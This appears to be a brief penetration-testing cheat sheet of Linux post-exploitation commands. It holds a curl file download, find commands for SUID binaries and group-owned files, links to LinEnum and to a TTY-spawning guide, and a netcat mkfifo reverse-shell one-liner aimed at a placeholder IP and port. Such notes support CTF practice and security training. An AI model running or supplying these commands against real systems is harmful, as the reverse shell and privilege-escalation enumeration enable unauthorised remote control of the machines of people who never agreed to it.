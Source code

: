 # Password File
[/etc/passwd](https://www.ibm.com/docs/en/aix/7.2?topic=passwords-using-etcpasswd-file)

# Download file
curl -o localNamed http://0.0.0.0:8000/fileName

# Enumeration:
## SUID bits:
* find / -perm -u=s -type f 2>/dev/null
* [LinEnum](https://github.com/rebootuser/LinEnum)

## Group files:
find / -group groupName -type f 2>/dev/null

## Privilege escalation:
* [Spawn a TTY shell](https://netsec.ws/?p=337)

## Linux Netcat:
* rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f
